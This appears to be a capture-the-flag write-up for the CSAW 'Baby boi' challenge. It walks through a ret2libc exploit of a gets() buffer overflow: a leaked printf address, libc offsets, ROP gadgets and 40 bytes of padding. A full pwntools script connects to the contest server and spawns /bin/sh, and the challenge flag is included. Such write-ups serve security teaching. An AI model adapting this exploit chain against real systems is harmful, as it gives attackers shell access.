

# Baby boi (50)

We are given a 64bit binary, a libc and even the source code .
Our first assumptions is that it's a BOF (Buffer OverFlow) challenge cuz we can see the `gets` function with no control of the input length.
And we can see also that it's giving us the address of `printf` in libc so no leak needed here.


and we also have the libc linked in the server so the attack scenario is simple:

1-get the leaked address of printf.

2-get the offset of printf in libc and calculate the base address.

3-collect needed gadgets and build the ROP chain.

4-from the base calculate the locations of `execve` and `/bin/sh` string to perform a ```execve("/bin/sh",0,0)``` call in order to get an interractive shell and then we can get the flag.


Let's start by getting offsets of printf and execve. To do that we can use `readelf` with `-s` option on the given libc to get the symbols table and from that we grep printf and execve.


we can see that the offset of printf in libc is `0x64e80`.


and the offset of execve in libc is `0xe4e30`.

okay let's start creating our exploit. Pwntools will make our life so much easier. First of all we have to get the leaked address and calculate the base location.


```python
from pwn import * 
env = {"LD_PRELOAD":"./libc-2.27.so"}
p = process("./baby_boi",env=env)
data = p.recv()
data = data.split("\n")[1]
data = data.split(" ")[3]
printf_libc = int(data,16)
base = printf_libc - 0x64e80
print "base: ",hex(base)
```


if you notice that the base address of libc always ends with 000 that's because it's the beginning.

now we have to calculate the location of execve by adding the execve offset from libc to the base so the exploit become like:

```python
from pwn import * 
env = {"LD_PRELOAD":"./libc-2.27.so"}
p = process("./baby_boi",env=env)
data = p.recv()
data = data.split("\n")[1]
data = data.split(" ")[3]
printf_libc = int(data,16)
base = printf_libc - 0x64e80
print "base: ",hex(base)
execve = base + 0x00000000000e4e30
print "execve_libc: ",hex(execve)
```

we can use gdb to calculate of offset between `execve` and `/bin/sh` string in libc so we can calculate its location.




we can see that the offset is `0xcf06a`.

Okay now we need just the gadgets to perform the call that we want execve needs 3 arguments so we have to control `rdi`,`rsi` and `rdx` and it's not a problem since we have the libc file and the libc base we can calculate locations for every gadget we want.

last step to go is to get the padding of the stack to control `RIP` or the instructions pointer peda is very good at this using its `pattern` tool with `create` and `offset` options.


We can see that the padding is 40 so our buffer is away 40 bytes from the saved return address.

Everything is ready now just we need to complete the exploit and run it:

```python
from pwn import * 
env = {"LD_PRELOAD":"./libc-2.27.so"}
#p = process("./baby_boi",env=env)
p = remote("pwn.chal.csaw.io",1005)

data = p.recv()
data = data.split("\n")[1]
data = data.split(" ")[3]
printf_libc = int(data,16)
base = printf_libc - 0x0000000000064e80
execve = base + 0x00000000000e4e30
binsh = execve + 0xcf06a
print "base: ",hex(base)
print "execve_libc: ",hex(execve)
print "binsh: ",hex(binsh)
pop_rdi = 0x0000000000400793
paylaod = ""
paylaod += "A"*40
paylaod += p64(0x0000000000400791)
paylaod += p64(0)
paylaod += p64(0)
paylaod += p64(pop_rdi)
paylaod += p64(binsh)
paylaod += p64(execve)
p.sendline(paylaod)
p.interactive()
```


FLAG: `flag{baby_boi_dodooo_doo_doo_dooo}`
